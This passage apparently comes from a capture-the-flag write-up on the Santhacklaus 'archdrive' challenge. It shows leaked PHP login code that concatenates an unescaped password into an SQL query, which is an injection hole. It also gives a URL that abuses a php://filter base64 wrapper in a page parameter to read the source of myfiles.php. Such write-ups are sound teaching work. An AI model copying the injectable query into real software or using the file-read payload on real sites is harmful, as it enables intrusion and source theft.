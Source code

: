 ```php
          $state->string = 'Connection error';
          $state_json = json_encode($state);
          echo $state_json;
          return;
      }

      $user = mysqli_real_escape_string($bdd, strtolower($_POST['email']));
      $pass = $_POST['pass'];
$sql = "SELECT user,password FROM `access-users` WHERE user='".$user."' AND password='".$pass."'";

      $res = mysqli_query($bdd, $sql);

      $num_row = mysqli_num_rows($res);
      $row=mysqli_fetch_assoc($res);

        if ( $num_row == 1 && $user === $row['user']) {
            $state->return = 'true';
            $_SESSION['logged'] = 1;
            header("Location: myfiles.php");

      } else {
          $state->return = 'false';
          header("Location: index.php");
      }
    }
  }
?>
```

Great, new file appeared: __myfiles.php__

> https://archdrive.santhacklaus.xyz/?page=pHp://FilTer/convert.base64-encode/resource=myfiles.php

```php
<?php session_start();

    if($_SESSION['logged'] === 1)
    {
    ?>
<!DOCTYPE html>
<html lang="en">
<head>
  <title>My Files</title>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="icon" type="image/png" href="images/icons/favicon.ico"/>
  <link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
  <link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
  <link rel="stylesheet" type="text/css" href="fonts/iconic/css/material-design-iconic-font.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
  <link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
  <link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
  <link rel="stylesheet" type="text/css" href="css/util.css">
  <link rel="stylesheet" type="text/css" href="css/main.css">
</head>
<body>
  <div class="limiter">
    <div class="container-login100">
      <div class="wrap-login100">
          <span class="login100-form-title p-b-48">
```